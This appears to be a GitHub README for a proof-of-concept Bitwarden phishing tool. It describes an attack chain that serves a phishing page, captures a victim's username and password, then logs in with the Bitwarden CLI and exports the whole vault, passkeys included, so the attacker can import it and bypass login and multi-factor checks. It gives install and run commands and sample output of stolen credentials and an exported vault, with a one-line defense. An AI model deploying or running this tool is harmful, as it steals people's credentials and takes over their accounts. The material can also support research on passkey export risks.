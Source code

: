 # Bitwarden Phishing Tool
This tool is meant as a proof-of-concept only and is not intended to be a weaponized exploit.

## A Note on Synced Passkeys
Bitwarden like every other provider approaches this problem differently. Bitwarden's Browser extensions don't store the passwords or passkeys locally in a level-db. It is stored somewhere on their servers, but they do let you export them as a json or csv.

Most password managers provide support for exporting your stored credentials, and that is fine. To let passkey get exported is a design choice, chrome doesn't provide you this but Bitwarden does, which does more harm in case of this attack.

## Attack Chain
1. Launch the Bitwarden phisher
2. Have a victim browse the page
3. Use Bitwarden cli to login and export all the credentials including passkeys
4. Import these into your own Bitwarden account and bypass Login, Multi-Factor etc easily

# Defense
Use device-bound keys for now.

# Installation & Usage

Everything is written in node, so should be pretty easy to setup
```bash
git clone https://github.com/Allthenticate/yourpasskeyisweak.git
cd yourpasskeyisweak/bitwarden/
```

This installs the dependencies including biwarden/cli, and servers the phishing page on port 3000
```bash
npm install
node server.js
```

If the victim has fallen for the attack, the stdout should be something like this
```bash
Server is running at http://localhost:3001
Ready to receive login data...
Received login details:
Username: passkeyvictim
Password: myweakpassword
User data successfully written to credentials.txt
```

On a different terminal run,
```bash
./login.sh
```

This will try to login into the Bitwarden account and then export the credentials in a json file.
```bash
[master][~/yourpasskeyisweak/bitwarden]$ ./login.sh
Logging in: passkey@victim.com myweakpassword
Login successful for passkey@victim.com
Saved /root/yourpasskeyisweak/bitwarden/passkey_victim_com_data.json
Exported vault to lpasskey_victim_com_data.json
You have logged out.
```
